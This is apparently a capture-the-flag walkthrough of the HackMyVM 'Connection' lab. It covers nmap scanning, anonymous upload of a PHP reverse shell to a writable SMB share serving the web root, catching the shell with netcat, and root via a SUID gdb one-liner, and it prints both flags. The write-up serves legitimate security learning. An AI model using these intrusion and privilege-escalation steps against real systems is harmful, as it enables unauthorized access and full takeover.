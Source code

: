 ```yaml
---
title: "Connection - HackMyVM Walkthrough"
---
```

nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ nmap -p- -sV 192.168.56.250
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 20:01 EDT
Nmap scan report for 192.168.56.250
Host is up (0.00060s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
gobuster and dirb didn't enumerate any hidden files or directories. Moving on the the
SMB server. 

smbmap results: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ smbmap -H 192.168.56.250  
[+] IP: 192.168.56.250:445	Name: 192.168.56.250                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	share                                             	READ ONLY	
	print$                                            	NO ACCESS	Printer Drivers
	IPC$
{% endhighlight %}
smbclient anonymous connection: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/vulny]
└─$ smbclient //192.168.56.250/share
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 22 21:48:39 2020
  ..                                  D        0  Tue Sep 22 21:48:39 2020
  html                                D        0  Tue Sep 22 22:20:00 2020

		7158264 blocks of size 1024. 5206628 blocks available
smb: \>
{% endhighlight %}
in the `html` directory is the default index page for the apache installation. 

I attempted the method used in this article without success: https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63 

smbmap output led me astray in thinking that we can't write to the file system. It
turns out that we can. Lesson learned: don't blindly trust the tools, test things 
out manually as well. 

Uploading reverse shell: 

{% highlight terminal %}
smb: \html\> put reverse-shell.php 
putting file reverse-shell.php as \html\reverse-shell.php (1072.8 kb/s) (average 1072.9 kb/s)
smb: \html\> ls
  .                                   D        0  Sat Oct 30 15:30:28 2021
  ..                                  D        0  Tue Sep 22 21:48:39 2020
  index.html                          N    10701  Tue Sep 22 21:48:45 2020
  reverse-shell.php                   A     5493  Sat Oct 30 15:30:28 2021
  test.txt                            A        0  Sat Oct 16 21:26:19 2021

smb: \html\>

{% endhighlight %}
Setting up for a reverse connection and catching the connection:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/connection]
└─$ nc -nlvp 6666            
listening on [any] 6666 ...
connect to [192.168.56.224] from (UNKNOWN) [192.168.56.250] 37396
Linux connection 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 15:49:46 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}

Getting a better shell with python after checking the installed version: 

{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@connection:/home/connection$ 
{% endhighlight %}

Getting the user flag:

{% highlight terminal %}
www-data@connection:/home/connection$ cat local.txt
cat local.txt
3f491443a2a6aa82bc86a3cda8c39617
{% endhighlight %}

Checking the SUID binaries:
{% highlight terminal %}
www-data@connection:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
{% endhighlight %}

gdb stands out from this list. Let's check out gtfobins for a viable way of getting a SUID shell with this binary. From gtfobins: 
>If the binary has the SUID bit set, it does not drop the elevated privileges and 
>may be abused to access the file system, escalate or maintain privileged access as
>a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like 
>Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

Attempting to get an elevated privilege shell on the machine using the example:
{% highlight terminal %}
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh")' -ex quit
{% endhighlight %}

That seemed to work, so let's check who we are. We're still www-data user, because we excluded the option `-p` in the parameters of the python code. 

{% highlight terminal %}
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
{% endhighlight %}

Getting the root flag: 
{% highlight terminal %}
# whoami
whoami
root
# cd root
cd root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt
a7c6ea4931ab86fb54c5400204474a39
{% highlight terminal %}

I submitted both flags to HackMyVM and got the points. Hooray for points. 
